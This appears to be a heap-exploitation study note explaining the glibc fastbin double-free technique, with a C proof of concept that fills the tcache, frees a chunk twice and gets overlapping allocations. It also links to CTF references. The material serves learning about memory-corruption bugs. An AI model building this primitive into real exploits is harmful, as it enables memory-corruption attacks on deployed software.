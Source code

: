 <details>
<summary><strong>Description</strong></summary>
<p>

all libc version can conduct double free in fastbin (tested on libc `2.31`, `2.35`, `2.38`, `2.39`) 

since fastbin only check the current fastbin head chunk with the chunk we're trying to free to detect double free, we just need to padding a chunk before trigger...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk[9], *reallocate_chunk[4];

    for (int i = 0; i < 9; i++) chunk[i] = malloc(0x78); // request size must be in fastbin range in order to work

    for (int i = 0; i < 7; i++) free(chunk[i]); // fill the 0x80 tcache

    free(chunk[7]);
    free(chunk[8]);
    // [fastbin 0x80]: chunk8 -> chunk7

    /*VULNERABILITY*/
    free(chunk[7]);
    /*VULNERABILITY*/

    // [fastbin 0x80]: chunk7 -> chunk8 <- chunk7
    printf("now chunk[7] exists in 0x80 fastbin twice\n");

    for (int i = 0; i < 7; i++) chunk[i] = malloc(0x78); // empty the tcache

    reallocate_chunk[0] = malloc(0x78); // reallocate chunk7, trigger fastbin dumping
    // [tcache 0x80]: chunk8 -> chunk7 <- chunk8

    reallocate_chunk[1] = malloc(0x78); // reallocate chunk8
    // [tcache 0x80]: chunk7 -> chunk8 (since we dont write over chunk7 next ptr)

    reallocate_chunk[2] = malloc(0x78); // reallocate chunk7 again
    // [tcache 0x80]: chunk8

    printf("reallocate chunk 0: %p\n", reallocate_chunk[0]);
    printf("reallocate chunk 2: %p\n", reallocate_chunk[2]);

    printf("since we don't write over the next ptr for those chunks, we're able to reallocate chunk8 too\n");
    reallocate_chunk[3] = malloc(0x78); // reallocate chunk8 again

    printf("reallocate chunk 1: %p\n", reallocate_chunk[1]);
    printf("reallocate chunk 3: %p\n", reallocate_chunk[3]);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/fastbin/fastbin_double/readme.md
- https://github.com/johnathanhuutri/CTFNote/tree/master/Heap-Exploitation#double-free-table-of-content-1

</p>
</details>